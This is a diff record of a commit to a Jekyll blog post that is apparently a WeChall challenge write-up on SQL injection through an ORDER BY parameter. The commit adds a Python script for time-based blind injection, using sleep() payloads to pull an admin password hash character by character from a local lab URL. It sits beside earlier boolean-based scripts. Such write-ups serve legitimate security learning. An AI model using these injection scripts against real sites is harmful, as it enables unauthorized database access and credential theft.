

Before and after one commit to tank96a/article, a Jekyll site: the page built from _posts/2015-04-25-wechall-order-by.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; library files that are not in the unit come from our copies; comment, search, counter and statistics services are not loaded.

Commit message:
Update 2015-04-25-wechall-order-by.md

```diff
--- a/_posts/2015-04-25-wechall-order-by.md
+++ b/_posts/2015-04-25-wechall-order-by.md
@@ -22,7 +22,7 @@ ASCII(SUBSTRING((SELECT password FROM fruits WHERE username = 0x41646d696e),1,1)
 
 python爆破脚本，用到了requests模块，必须在linux下运行。
 {% highlight python %}
-#版本1
+#版本1 CASE WHEN
 import requests,string
 charset = 'abcdef'+string.digits
 AdminHash=''
@@ -37,7 +37,7 @@ for i in range(1,33):
             break
 print AdminHash  #e10adc3949ba59abbe56e057f20f894e
 
-#版本2
+#版本2 IF
 import requests,string
 charset = 'abcdef'+string.digits
 AdminHash=''
@@ -49,6 +49,29 @@ for i in range(1,33):
         res = requests.get(url+payload)
         if "2</td><td>Admin" in res.text:
             AdminHash+=c
+            break
+print AdminHash
+
+#版本3  time injection
+#by=()
+#select 1 from ()b
+#select * from fruits where username='Admin' and if(condtion,sleep(0.5),0)
+#upper(substring(password,%d,1))=char(%d)
+import requests,string,time
+charset = 'ABCDEF'+string.digits
+AdminHash=''
+url = 'http://192.168.1.100/DebugPHP/3.php'
+for i in range(1,33):
+    for c in  charset:
+        payload="?by=(select 1 from (select * from fruits where username='Admin' +\
+                 and if(upper(substring(password,%d,1))=char(%d),sleep(0.5),0))b)" %(i,ord(c))
+        timeStart = time.time()
+        res = requests.get(url+payload)
+        timeEnd = time.time()
+        seconds = timeEnd - timeStart
+        if seconds>0.2:
+            AdminHash+=c
+            print AdminHash
             break
 print AdminHash
 {% endhighlight %}
```
